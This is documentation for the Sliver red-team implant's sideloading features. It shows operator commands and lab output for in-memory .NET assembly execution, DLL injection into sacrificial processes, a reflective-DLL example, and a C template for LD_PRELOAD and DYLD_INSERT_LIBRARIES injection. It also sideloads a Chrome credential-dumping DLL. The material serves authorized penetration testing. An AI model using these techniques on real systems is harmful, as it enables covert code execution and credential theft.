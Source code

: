 ## Sideloading Features

Sliver implants support three different ways of loading third party tools:

- `execute-assembly`
- `sideload`
- `spawndll`

## Known Limitations

Arguments passed to .NET assemblies and non-reflective PE extensions are limited to 256 characters. This is due to a limitation in the Donut loader Sliver is using. A workaround for .NET assemblies is to execute them in-process, using the `--in-process` flag, or a custom BOF extension like `inline-execute-assembly`. There is currently no workaround for non-reflective PE extension.

## Loading .NET Assemblies

This feature is only supported on Windows.

Using `execute-assembly`, one can run an arbitrary .NET assembly on a remote system via a Sliver implant. The implant will start a sacrificial process (`notepad.exe` by default, you can change this by using the `--process`) that will host a reflective DLL used to load the .NET CLR. The assembly will then be copied into this process and a new thread will start on the reflective DLL entrypoint, which will load and run the assembly in memory.

Here's an example with [Seatbelt](https/github.com/GhostPack/Seatbelt):

```
sliver (CONCRETE_STEEL) > execute-assembly -t 80 /tmp/Seatbelt.exe All
[*] Assembly output:

 %&&@@@&&
 &&&&&&&%%%, #&&@@@@@@%%%%%%###############%
 &%& %&%% &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####% &%%**# @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%####### %&%,,,,,,,,,,,,,,,, @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%####### %%%,,,,,, ,,. ,, @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%#################### &%%...... ... .. @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%######### %%%...... ... .. @////(((&%%%%%#########################(#(#######((#####
###%##%%#################### &%%............... @////(((&%%%%%%%%##############%#######(#########((#####
#####%###################### %%%.. @////(((&%%%%%%%################
 &%& %%%%% Seatbelt %////(((&%%%%%%%%#############*
 &%%&&&%%%%% v0.2.0 ,(((&%%%%%%%%%%%%%%%%%,
 #%%%%##,

=== Running System Triage Checks ===

=== Basic OS Information ===

 Hostname : DESKTOP-0QQJ4JL
 Domain Name :
 Username : DESKTOP-0QQJ4JL\lab
 ProductName : Windows 10 Pro
 EditionID : Professional
 ReleaseId : 1909
 BuildBranch : 19h1_release
 CurrentMajorVersionNumber : 10
 CurrentVersion : 6.3
 Architecture : AMD64
 ProcessorCount : 2
 IsVirtualMachine : True
 BootTime (approx) : 5/19/2020 855 AM
 HighIntegrity : False
 IsLocalAdmin : True
 [*] In medium integrity but user is a local administrator- UAC can be bypassed.
...
```

## Shared Library Side Loading

The `sideload` command allows to load and run code in-memory (Windows/Linux) or via dropping a temporary file to disk (MacOS). On Windows, the DLL will be converted to a shellcode via [sRDI](https/github.com/monoxgas/sRDI) and injected into a sacrificial process.

On Linux systems, Sliver uses the `LD_PRELOAD` technique to preload a shared library previously written in a memory file descriptor using the `memfd_create` syscall. That way, no file is stored on disk, which grants the implant a bit of stealth. The shared library is preloaded in a sacrificial process, which is `/bin/ls` by default.

On MacOS systems, Sliver uses the `DYLD_INSERT_LIBRARIES` environment variable to preload a dynamic library into a program, chosen by the operator. The target program must allow unsigned libraries to be loaded that way.

No specific operation is performed by Sliver for Linux and Mac OS shared libraries, which means it's up to the operator to build their shared libraries to execute whenever they see fit. A good starting point would be using the `constructor` attribute for MacOS shared libraries, or adding a `.init_array` section for the Linux version.

Sliver will use the `LD_PARAMS` environment variable to pass arguments to the sideloaded libraries. Thus, the library can just read this environment variable to retrieve parameters and act accordingly.

Here's a starting point :

```c
#if __linux__
#include <stdlib.h>

void DoStuff();

static void init(int argc, char **argv, char **envp)
{
 // unset LD_PRELOAD to prevent sub processes from misbehaving
 unsetenv("LD_PRELOAD");
 // retrieve the LD_PARAMS value
 // unset LD_PARAMS if there's no need for it anymore
 unsetenv("LD_PARAMS");
 DoStuff();
}
__attribute__((section(".init_array"), used)) static typeof(init) *init_p = init;
#elif __APPLE__
void DoStuff();

__attribute__((constructor)) static void init(int argc, char **argv, char **envp)
{
 // unset DYLD_INSERT_LIBRARIES to prevent sub processes from misbehaving
 unsetenv("DYLD_INSERT_LIBRARIES");
 // retrieve the LD_PARAMS value
 // unset LD_PARAMS if there's no need for it anymore
 unsetenv("LD_PARAMS");
 DoStuff();
}

#endif
```

Don't forget to unset the `LD_PRELOAD` or `DYLD_INSERT_LIBRARIES` environment variables, otherwise any sub process started by your shared library or host process will be preloaded with your shared library.

To side load a shared library, use the `sideload` command like this:

```
// Windows example
sliver (CONCRETE_STEEL) > sideload -e ChromeDump /tmp/chrome-dump.dll
// Linux example
sliver (CONCRETE_STEEL) > sideload -p /bin/bash -a "My arguments" /tmp/mylib.so
// MacOS example
sliver (CONCRETE_STEEL) > sideload -p /Applications/Safari.app/Contents/MacOS/SafariForWebKitDevelopment -a 'Hello World' /tmp/mylib.dylib
```

Please be aware that you need to specify the entrypoint to execute for Windows DLLs.

## Loading Reflective DLLs

Loading reflective DLLs is just a special case of side loading DLLs. To make things easier, the `spawndll` command allows you to inject reflective DLLs and run them in a remote process.

Here's an example with the `PsC` tool from [Outflank's Ps-Tools suite](https/github.com/outflanknl/Ps-Tools):

```
sliver (CONCRETE_STEEL) > spawndll /tmp/Outflank-PsC.dll blah
[*] Output:

--------------------------------------------------------------------
[+] ProcessName: svchost.exe
 ProcessID: 2960
 PPID: 576 (services.exe)
 CreateTime: 19/05/2020 10:53
 Path: C:\Windows\System32\svchost.exe
 ImageType: 64-bit
 CompanyName: Microsoft Corporation
 Description: Host Process for Windows Services
 Version: 10.0.18362.1

<-> Session: TCP
 State: ESTABLISHED
 Local Addr: 172.16.241.128:49819
 Remote Addr: 40.67.251.132:443

--------------------------------------------------------------------
[+] ProcessName: CONCRETE_STEEL.exe
 ProcessID: 7400
 PPID: 5440 (explorer.exe)
 CreateTime: 19/05/2020 10:54
 SessionID: 1
 Path: C:\Users\lab\Desktop\CONCRETE_STEEL.exe
 ImageType: 64-bit
 UserName: DESKTOP-0QQJ4JL\lab
 Integrity: Medium
 PEB Address: 0x0000000000352000
 ImagePath: C:\Users\lab\Desktop\CONCRETE_STEEL.exe
 CommandLine: "C:\Users\lab\Desktop\CONCRETE_STEEL.exe"

<-> Session: TCP
 State: ESTABLISHED
 Local Addr: 172.16.241.128:49687
 Remote Addr: 172.16.241.1:8888
```

Note that in this case, the entrypoint of the reflective DLL (`ReflectiveLoader`) expects a non NULL parameter, which is why we passed a dummy parameter `blah`.
